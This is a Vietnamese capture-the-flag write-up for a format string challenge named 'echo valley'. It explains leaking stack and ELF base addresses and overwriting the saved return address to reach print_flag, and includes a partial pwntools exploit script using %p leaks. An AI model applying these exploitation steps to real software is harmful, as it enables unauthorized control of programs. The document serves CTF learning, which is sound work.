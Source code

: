 Source code bài này khá đơn giản không có gì quá đặc biệt ngoài một lỗi `Format String` trong hàm `echo_valley`. Trong hàm này nó sẽ chạy một `infinity` loop, cho phép ta thực hiện các chức năng của hàm và chỉ `break` ra khi ta nhập `exit`. Ý tưởng thì vẫn như các bài trước ta vẫn sẽ leak và tính toán các địa chỉ cần thiết như là `elf base`, `stack address` ...

### Solution

Cách leak tương tự như `PIE TIME 2`, mình sẽ sử dụng short form của `%p` để leak địa chỉ và bài này idea của mình sẽ là leak và tính toán địa chỉ `elf base` và `stack` sau đó dùng format string payload để đặt địa chỉ của `print_flag` và `saved rip`. Làm như vậy thì sau khi ta nhập `exit`, loop được `break` ra hàm `echo_valley` thay vì return vào `main` nó sẽ return vào `printf_flag`

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from time import sleep

context.log_level = 'debug'
exe = context.binary = ELF('./valley', checksec=False)
libc = exe.libc

def init(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        docker_port = sys.argv[1]
        docker_path = sys.argv[2]
        p = remote("localhost", docker_port)
        sleep(1)
        pid = process(["pgrep", "-fx", docker_path]).recvall().strip().decode()
        gdb.attach(int(pid), gdbscript=gdbscript, exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''

b *echo_valley+201
b *echo_valley+219
c
'''.format(**locals())

p = init()

# ==================== EXPLOIT ====================

def exploit():

    p.sendline(b'%20$p')

    p.recvuntil(b'distance: ')
    stack = int(rl()[:-1], 16)
    log.info('Stack: ' +  hex(stack))

    p.sendline(b'%21$p')
    p.recvuntil(b'distance: ')
    leak = int(p.recvline()[:-1], 16)
    exe.address = leak - 0x1413
    log.info('Elf base: ' + hex(exe.address))

```